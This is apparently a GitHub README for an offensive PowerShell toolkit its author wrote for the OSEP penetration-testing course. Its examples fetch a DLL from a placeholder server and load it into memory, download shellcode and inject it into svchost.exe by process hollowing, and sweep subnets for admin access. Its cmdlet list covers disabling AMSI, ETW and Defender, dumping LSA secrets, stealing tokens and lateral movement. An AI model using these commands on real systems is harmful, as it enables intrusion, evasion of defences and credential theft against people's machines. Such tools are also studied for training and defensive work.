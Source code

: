 # TortugaToolKit

Written during OSEP course, for learning purposes. Used heavily during the exam with much success.

## Examples

Load it

```powershell
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://yourserver/tortugatoolkit.dll -UseBasicParsing).Content);
Import-Module -Assembly $a

Untested but should work.
$test=((IWR -Uri 'http://yourserver/turtletoolkit.dll' -UseBasicParsing).RawContent);$len=$test.length;$test.SubString($len-($len -198));$a=[System.Reflection.Assembly]::Load($test);
Import-Module -Assembly $a

```

Example of remotely loading and encrypting shellcode, then performing proc hollow with it
```powershell
$r = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
Invoke-ProcessHollow -procName 'svchost.exe' -k $r.encryptedKey -encsh $r.encryptedshellcode -ivk $.initVector
```
Example of performing ping sweep then admin check on subnet
```powershell
$s = Invoke-PingSweep -s "172.16.23.0";
foreach($h in $s){Invoke-AdminCheck -t $h}

Invoke-AdminCheck -h $(Invoke-PingSweep -s "172.16.75.0")
```
Example


## List of cmdlets

```
Disable-AMSI
Disable-DefenderForEndpoint
Disable-Etw
Enable-DefenderForEndpoint
Enable-Privileges
Get-ActiveDirectoryComputers
Get-ActiveDirectoryForests
Get-ActiveDirectoryGroupMembership
Get-ActiveDirectoryGroups
Get-ActiveDirectoryUsers
Get-CurrentIdentity
Get-MsSQLQuery
Get-SQLInfo
Get-System
Get-TrustedInstaller
Invoke-AdminCheck
Invoke-AssemblyLoader
Invoke-ClassicInjection
Invoke-FileLessLateralMovement
Invoke-LsaSecretsDmp
Invoke-MsSQLAssembly
Invoke-MsSQLShell
Invoke-PingSweep
Invoke-ProcessHollow
Invoke-ShellcodeEncryption
Invoke-TokenStealer
Invoke-TurtleDump
Invoke-TurtleHound
Invoke-TurtleUp
Invoke-TurtleView
Undo-Impersonation

```

## credits


todo


## Unlicense

```
This is free and unencumbered software released into the public domain.


Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.


In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.


THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

```

For more information, please refer to <http://unlicense.org/>
